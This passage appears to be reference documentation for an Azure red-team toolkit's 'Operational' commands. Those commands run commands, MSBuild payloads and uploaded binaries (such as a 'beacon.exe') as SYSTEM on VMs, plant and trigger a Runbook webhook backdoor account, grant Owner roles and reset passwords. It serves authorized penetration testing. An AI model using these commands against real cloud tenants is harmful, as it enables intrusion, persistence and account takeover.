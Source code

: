Operational
===========

**Execute-Command**


.. _**Synopsis**-21:

**Synopsis**


Will run a command or script on a specified VM

.. _permissions-4:

Permissions


.. _****Syntax****-21:

****Syntax****



::

  Execute-Command -OS [OS] -ResourceGroup [RG Name] -VM [VM Name]
-Command [Command]

.. _**Description**-21:

**Description**


Executes a command on a virtual machine in Azure using 
::

  az vm run-command invoke

.. _**Examples**-21:

**Examples**



::

  Execute-Command -OS Windows -ResourceGroup TestRG -VM AzureWin10
-Command whoami

.. _**Parameters**-21:

**Parameters** 


-OS

Operating system, options are 'Linux' or 'Windows'

-ResourceGroup

Resource group name the VM is located in

-VM

Name of the virtual machine to execute the command on

-Command

The command to be executed

.. _required-modules-20:

**Required Modules**


Azure CLI

.. _**Output**-21:

**Output**


**Output** of command being run or a failure message if failed

**Execute-MSBuild** 
---------------~~~~

.. _**Synopsis**-22:

**Synopsis**


Will run a supplied MSBuild payload on a specified VM. By default, Azure
VMs have .NET 4.0 installed. Requires Contributor Role. Will run as
SYSTEM.

.. _permissions-5:

Permissions


.. _****Syntax****-22:

****Syntax****



::

  Execute-MSBuild -ResourceGroup [RG Name] -VM [Virtual Machine name] -File [C:/path/to/payload/onyourmachine.xml]

.. _**Description**-22:

**Description**


Uploads an MSBuild payload as a .ps1 script to the target VM then calls
msbuild.exe with 

::

  az run-command invoke.

.. _**Examples**-22:

**Examples**



::

  Execute-MSBuild -ResourceGroup TestRG -VM AzureWin10 -File C:\tempbuild.xml

.. _**Parameters**-22:

**Parameters** 


-ResourceGroup


Resource group name the VM is located in


-VM


Name of the virtual machine to execute the command on


-File


Location of build.xml file

.. _required-modules-21:

**Required Modules**


Azure CLI

.. _**Output**-22:

**Output**


Success message of msbuild starting the build if successful, error
message if upload failed.

**Execute-Program** 
---------------~~~~

.. _**Synopsis**-23:

**Synopsis**


Will run a given binary on a specified VM

.. _permissions-6:

Permissions


.. _****Syntax****-23:

****Syntax****



::

  Execute-Program -ResourceGroup [RG Name] -VM [Virtual Machine name] -File [C:/path/to/payload.exe]

.. _**Description**-23:

**Description**


Takes a supplied binary, base64 encodes the byte stream to a file,
uploads that file to the VM, then runs a command via
 
::

  az run-command invoke

to decode the base64 byte stream to a .exe file, then executes
the binary.

.. _**Examples**-23:

**Examples**



::
	Execute-Program -ResourceGroup TestRG -VM AzureWin10 -File
C:tempbeacon.exe

.. _**Parameters**-23:

**Parameters** 


-ResourceGroup

Resource group name the VM is located in

-VM

Name of the virtual machine to execute the command on

-File

Location of executable binary

.. _required-modules-22:

**Required Modules**


Azure CLI

.. _**Output**-23:

**Output**


“Provisioning Succeeded” **Output**. Because it’s a binary being executed,
there will be no native **Output** unless the binary is meant to return data
to stdout.

**Create-Backdoor** 
---------------~~~~

.. _**Synopsis**-24:

**Synopsis**


Creates a backdoor in Azure via Runbooks

.. _permissions-7:

Permissions


.. _****Syntax****-24:

****Syntax****



::

  Create-Backdoor -Username [Username] -Password [Password] -AutomationAccount [AA name] -ResourceGroup [RG Name] -NewUsername [New UN] -NewPassword [New Password]

.. _**Description**-24:

**Description**


Will create a Runbook that creates an Azure account and generates a
Webhook to that Runbook so it can be executed if you lose access to
Azure. Also gives the ability to upload your own .ps1 file as a Runbook
(Customization)

This requires an account that is part of the 'Administrators' Role
(Needed to make a user)

.. _**Examples**-24:

**Examples**



::

  Create-Backdoor -Username Administrator@contoso.com -Password Password! -AutomationAccount AutomationAccountExample -ResourceGroup ResourceGroupName -NewUsername Test01@contoso.com -NewPassword Passw0rd


.. _**Parameters**-24:

**Parameters** 


-Username

Username you used to login to Azure with, that has permissions to create
a Runbook and user

-Password

Password to that account

-AutomationAccount

Azure Automation Account name

-ResourceGroup

Resource Group name

-NewUsername

Username you want to create

-NewPassword

Password for that new account

.. _required-modules-23:

**Required Modules**


Azure CLI

Azure PowerShell

.. _**Output**-24:

**Output**


URI if successful, permissions error if failure

**Execute-Backdoor** 
---------------~~~~~

.. _**Synopsis**-25:

**Synopsis**


This runs the backdoor URI that is created with "Create-Backdoor”

.. _permissions-8:

Permissions


.. _****Syntax****-25:

****Syntax****



::

  Execute-Backdoor -URI [URI]

.. _**Description**-25:

**Description**


Executes the URI created by Create-Backdoor

.. _**Examples**-25:

**Examples**



::

  Execute-Backdoor -URI https://s16events.azure-automation.net/webhooks?token=qol1XudydN13%2bI5bilBZzbCjdzTIcfs4Fj4yH61WvQ%3d

.. _**Parameters**-25:

**Parameters** 


-URI

The URI generated by Create-Backdoor

.. _required-modules-24:

**Required Modules**


| Azure CLI
| Azure PowerShell

.. _**Output**-25:

**Output**


Webhook successfully executed

**Execute-CommandRunbook** 
---------------~~~~~~~~~~~

.. _**Synopsis**-26:

**Synopsis**


Will execute a supplied command or script from a Runbook if the Runbook
is configured with a "RunAs" account

.. _permissions-9:

Permissions


.. _****Syntax****-26:

****Syntax****



::

  Execute-CommandRunbook -AutomationAccount [AA Name] -ResourceGroup [RGName] -VM [VM Name] -Command [Command]

.. _**Description**-26:

**Description**


If an Automation Account is utilizing a ‘Runas’ account, this allows you
to run commands against a virtual machine if that RunAs account has the
correct permissions over the VM.

.. _**Examples**-26:

**Examples**



::

  Execute-CommandRunbook -AutomationAccount TestAccount -ResourceGroup TestRG -VM Win10Test -Command whoami


::

  Execute-CommandRunbook -AutomationAccount TestAccount -ResourceGroup TestRG -VM Win10Test -Script "C:temptest.ps1"

.. _**Parameters**-26:

**Parameters** 


-AutomationAccount

Automation Account name

-ResourceGroup

Resource Group name

-VM

VM name

-Command (optional)

Command to be run against the VM. Choose this or -Script if executing an
entire script

-Script (optional)

Run an entire script instead of just one command.

.. _required-modules-25:

**Required Modules**


Azure CLI

Azure PowerShell

.. _**Output**-26:

**Output**


**Output** of command if successfully ran.

**Upload-StorageContent** 
---------------~~~~~~~~~~

.. _**Synopsis**-27:

**Synopsis**


Uploads a supplied file to a storage share.

.. _permissions-10:

Permissions


.. _****Syntax****-27:

****Syntax****



::

  Upload-StorageContent -StorageAccount [Storage Account name] -Share [Storage share name] -File [File name to upload]

.. _**Description**-27:

**Description**


Uploads a supplied file to a storage container located in a storage
account

.. _**Examples**-27:

**Examples**



::

  Upload-StorageContent -StorageAccount TestName -Share TestShare -File secret.txt

.. _**Parameters**-27:

**Parameters** 


-StorageAccount

Name of Storage account. Try Get-StorageAccounts for a list.

-File

File to upload

-Share

Share name to upload to

.. _required-modules-26:

**Required Modules**


Azure CLI

Azure Powershell

.. _**Output**-27:

**Output**


Success message

**Stop-VM** 
~~~~~~~~~~~

.. _**Synopsis**-28:

**Synopsis**


Stops a Virtual Machine

.. _permissions-11:

Permissions


.. _****Syntax****-28:

****Syntax****



::

   Stop-VM -VM [VM name] -ResourceGroup [RG] 

.. _**Description**-28:

**Description**


Stops a VM

.. _**Examples**-28:

**Examples**



::

   Stop-VM -VM Example2016R2 -ResourceGroup Test_RG

.. _**Parameters**-28:

**Parameters** 


-VM

Name of machine

-ResourceGroup

Resource group the VM is located in

.. _required-modules-27:

**Required Modules**


Azure CLI

.. _**Output**-28:

**Output**


VM successfully stops

Start-VM 
~~~~~~~~

****Synopsis****

Starts a Virtual Machine

**Permissions**

******Syntax******


::

   Start-VM -VM [VM name] -ResourceGroup [RG] 

****Description****

Starts a VM

****Examples****


::

   Start-VM -VM Example2016R2 -ResourceGroup Test_RG

****Parameters****

-VM

Name of machine

-ResourceGroup

Resource group the VM is located in

.. _required-modules-28:

**Required Modules**


Azure CLI

****Output****

VM successfully starts

.. _section-1:

Restart-VM 
~~~~~~~~~~

****Synopsis****

Restarts a Virtual Machine

**Permissions**

******Syntax******


::

   Restart-VM -VM [VM name] -ResourceGroup [RG] 

****Description****

Restarts a VM

****Examples****


::

   Restart-VM -VM Example2016R2 -ResourceGroup Test_RG

****Parameters****

-VM

Name of machine

-ResourceGroup

Resource group the VM is located in

.. _required-modules-29:

**Required Modules**


Azure CLI

****Output****

VM successfully restarts

**Start-Runbook** 
---------------~~

.. _**Synopsis**-29:

**Synopsis**


Starts a Runbook

.. _permissions-12:

Permissions


.. _****Syntax****-29:

****Syntax****



::

   Start-Runbook -Account [Automation Account name] -ResourceGroup [Resource Group name] -Runbook [Runbook name] 

.. _**Description**-29:

**Description**


Starts a specified Runbook

.. _**Examples**-29:

**Examples**



::

   Start-Runbook -Account AutoAccountTest -ResourceGroup TestRG -Runbook TestRunbook 

.. _**Parameters**-29:

**Parameters** 


-Account

Name of Automation Account the Runbook is in

-ResourceGroup

Resource group it's located in

-Runbook

Name of runbook

.. _required-modules-30:

**Required Modules**


Azure CLI

Azure PowerShell

.. _**Output**-29:

**Output**


Runbook **Output**

**Set-Role** 
~~~~~~~~~~~~

.. _**Synopsis**-30:

**Synopsis**


Assigns a user a role for a specific resource or subscription

.. _permissions-13:

Permissions


.. _****Syntax****-30:

****Syntax****



::

  Set-Role -Role Owner -User [UPN] -Resource [Resource name]

.. _**Description**-30:

**Description**


Sets a role over a resource or subscription.

.. _**Examples**-30:

**Examples**



::

  Set-Role -Role Owner -User john@contoso.com -Resource WIN10VM


::

  Set-Role -Role Owner -User john@contoso.com -Subscription SubName

.. _**Parameters**-30:

**Parameters** 


-User

Name of user in format user@domain.com

-Role

Role name (must be properly capitalized)

-Resource

Name of Resource

-Subscription

Name of subscription

.. _required-modules-31:

**Required Modules**


Azure CLI

.. _**Output**-30:

**Output**


Role successfully applied

Remove-Role 
~~~~~~~~~~~

****Synopsis****

Removes a user from a role for a specific resource or subscription

**Permissions**

******Syntax******


::

  Set-Role -Role Owner -User [UPN] -Resource [Resource name]

****Description****

Removes a role over a resource or subscription.

****Examples****


::

  Remove-Role -Role Owner -User john@contoso.com -Resource WIN10VM


::

  Remove-Role -Role Owner -User john@contoso.com -Subscription SubName

****Parameters****

-User

Name of user in format user@domain.com

-Role

Role name (must be properly capitalized)

-Resource

Name of Resource

-Subscription

Name of subscription

.. _required-modules-32:

**Required Modules**


Azure CLI

****Output****

Role successfully Removed

**Set-Group** 
~~~~~~~~~~~~~

.. _**Synopsis**-31:

**Synopsis**


Adds a user to an Azure AD Group

.. _permissions-14:

Permissions


.. _****Syntax****-31:

****Syntax****



::

  Set-Group -User [UPN] -Group [Group name]

.. _**Description**-31:

**Description**


Adds a user to an AAD group. If the group name has spaces, put the group
name in single quotes.

.. _**Examples**-31:

**Examples**



::

  Set-Group -User john@contoso.com -Group 'SQL Users' 

.. _**Parameters**-31:

**Parameters** 


-User

UPN of the user

-Group

AAD Group name

.. _required-modules-33:

**Required Modules**


Azure CLI

.. _**Output**-31:

**Output**


User added to group

**Set-Password** 
---------------~

.. _**Synopsis**-32:

**Synopsis**


Sets a user's password

.. _permissions-15:

Permissions


.. _****Syntax****-32:

****Syntax****



::

  Set-Password -Username [UPN] -Password [new password]

.. _**Description**-32:

**Description**


Sets a user’s password. Requires AAD PS Module.

.. _**Examples**-32:

**Examples**



::

  Set-Password -Username john@contoso.com -Password newpassw0rd1

.. _**Parameters**-32:

**Parameters** 


-Password

New password for user

-Username

Name of user

.. _required-modules-34:

**Required Modules**


Azure CLI

AzureAD PowerShell

.. _**Output**-32:

**Output**


Password successfully set